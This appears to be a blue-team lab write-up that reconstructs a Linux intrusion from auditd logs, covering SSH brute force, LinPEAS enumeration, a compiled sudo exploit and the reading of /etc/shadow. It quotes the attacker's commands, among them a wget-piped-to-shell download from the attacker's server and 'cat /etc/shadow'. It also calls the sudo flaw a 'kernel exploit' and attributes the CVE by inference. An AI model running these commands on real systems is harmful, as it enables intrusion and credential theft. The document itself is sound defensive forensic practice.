




# Something Wicked — audit.log Triage
---

## Scenario

> Something is wrong with one of our Linux hosts. Review the provided `audit.log` and determine what happened.

## Objective

Reconstruct the full kill chain from Linux auditd logs — from initial access through privilege escalation and data exfiltration — and identify the account, attacker, tooling, exploit, and exfiltrated file.

## Tools Used

- `aureport` (auditd reporting)
- `ausearch` (auditd event/session search)
- Kali Linux
- OSINT research (CVE identification)

---

## Analysis

### Initial Triage

Ran a summary report to scope event volume:

```
aureport -if audit.log
```



Range of activity: **10/04/2021 20:22:07 – 20:28:06**. The standout figures were **87 failed logins** against **1 successful login**, plus 89 failed authentications — a classic brute-force signature followed by a single success.

### Finding 1 — Successful Login

```
aureport -if audit.log --login -i
```



Dozens of failed SSH attempts from a single source, then one success:

`10/04/2021 20:23:16  unknown(1001)  192.168.4.155  /dev/pts/1  /usr/sbin/sshd  yes  468383`

This gave the login time, UID **1001**, attacker IP **192.168.4.155**, and event ID **468383**.

### Finding 2 — Narrowing to the Session

```
ausearch -if audit.log --event 468383 -i
```

Returned `ses=49`, tying all subsequent activity to session 49. Confirming the account:

```
ausearch -if audit.log --session 49 -i | grep -i acct
```



`acct=btlo` — the compromised account.

### Finding 3 — Command History (TTY Report)

```
aureport -if audit.log --tty -i
```



Recovered every keystroke from the attacker's shell. The activity in order:

1. `hostname`, `whoami`, `ls`, `lsb_release -a` — host and user discovery
2. `wget -O - http://192.168.4.155:8000/linpeas.sh | sh` — LinPEAS piped to shell, never written to disk (enumeration only)
3. `wget http://192.168.4.155:8000/evil.tar.gz` → `tar zxvf evil.tar.gz` → `cd evil` → `make` → `./evil 0` — attacker downloads, compiles, and runs a local exploit
4. `whoami` again — checking whether privilege escalation succeeded
5. `rm -rf /home/btlo/evil` and `rm /home/btlo/evil.tar.gz` — artifact cleanup
6. `cat /etc/shadow` — reads a root-only file, confirming root was obtained
7. `exit`

---


## Question Walkthrough

**Q1: What account was compromised?**  
**Answer:** `btlo`  
Resolved via `ausearch --session 49 -i | grep -i acct` after tracing the successful login to session 49.

**Q2: What attack type was used to gain initial access?**  
**Answer:** `SSH brute-force`  
87 failed logins from 192.168.4.155 immediately preceding one success.

**Q3: What is the attacker's IP address?**  
**Answer:** `192.168.4.155`  
Source address on both the login report and the wget-hosted payload server.

**Q4: What tool was used to perform system enumeration?**  
**Answer:** `LinPEAS (linpeas.sh)`  
Downloaded and piped directly to shell; it is a privesc enumeration script, not an exploit.

**Q5: What is the name of the binary and pid used to gain root?**  
**Answer:** `evil, 829992`  
Pulled from a path report: `aureport -p -if audit.log | grep 'evil'` →
`10/04/2021 20:27:17  829992  /home/btlo/evil/evil  59  1001  48102`.

**Q6: What CVE was exploited to gain root access?**  
**Answer:** `CVE-2021-3156 (Sudo "Baron Samedit")`  
A compiled local exploit run against sudo in Oct 2021 maps to the Qualys "Baron Samedit" sudo vulnerability.

**Q7: What type of vulnerability is this?**  
**Answer:** `Heap-based buffer overflow`

**Q8: What file was exfiltrated once root was gained?**  
**Answer:** `/etc/shadow`  
`cat /etc/shadow` succeeded — root-readable only — exposing password hashes.

---

## IOCs

| Type | Value |
|------|-------|
| Attacker IP | 192.168.4.155 |
| Payload server | http://192.168.4.155:8000/ |
| Files | linpeas.sh, evil.tar.gz, evil |
| Compromised account | btlo (auid 1001) |
| Session | 49 |
| Terminal | /dev/pts/1 |
| Exfiltrated file | /etc/shadow |
| CVE | CVE-2021-3156 |

## Analyst Notes

The intruder brute-forced SSH to land as `btlo`, enumerated with LinPEAS (in-memory to avoid disk artifacts), then compiled and ran a local kernel exploit (CVE-2021-3156, Sudo Baron Samedit — heap-based buffer overflow) to reach root, exfiltrated `/etc/shadow`, and cleaned up the exploit files.

**MITRE ATT&CK:**
- T1110 — Brute Force (initial access)
- T1082 / T1033 — System / Owner-User Discovery
- T1046 / T1518 — Network Service / Software Discovery (LinPEAS)
- T1068 — Exploitation for Privilege Escalation (compiled exploit)
- T1003.008 — OS Credential Dumping: /etc/passwd and /etc/shadow
- T1070.004 — Indicator Removal: File Deletion

**Detection guidance:** alert on high SSH auth-failure volume from a single source followed by a success; flag `wget|curl ... | sh` piping to a shell; flag compiler use (`make`, `gcc`) in user home directories; and alert on any read of `/etc/shadow` by a non-root-initiated session.

## Key Takeaways

- Practiced pivoting an auditd investigation: `aureport` summary → login report → `ausearch` by event → by session → TTY command recovery.
- Session ID is the anchor that ties disparate auditd records into one coherent timeline.
- Distinguished enumeration tooling (LinPEAS) from the actual exploit (`evil`) rather than assuming the first download was the privesc.
- Mapped a compiled `./evil 0` execution to a specific CVE through OSINT.
